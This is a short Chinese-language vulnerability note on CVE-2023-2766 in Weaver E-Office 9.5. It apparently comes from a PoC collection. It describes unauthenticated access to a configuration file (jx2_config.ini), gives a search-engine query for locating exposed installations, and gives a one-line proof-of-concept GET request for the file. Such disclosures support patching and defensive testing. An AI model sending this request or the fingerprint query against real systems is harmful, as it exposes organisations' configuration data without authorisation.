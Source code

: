 CVE-2023-2766
## 0x01：漏洞描述
此漏洞会影响某些未知进程文件/building/backmgr/urlpage/mobileurl/configfile/jx2_config.ini。该操作会导致可访问的文件或目录。攻击可能是远程发起的。该漏洞已向公众披露，并可能被使用。此漏洞的关联标识符为 VDB-229271。
## 0x02：漏洞影响版本
Weaver E-Office 9.5版本
## 0x03：网络空间测绘查询
 app=“泛微-EOffice”

漏洞信息： https://nvd.nist.gov/vuln/detail/CVE-2023-2766


## poc
```
GET /building/backmgr/urlpage/mobileurl/configfile/jx2_config.ini HTTP/1.1
```
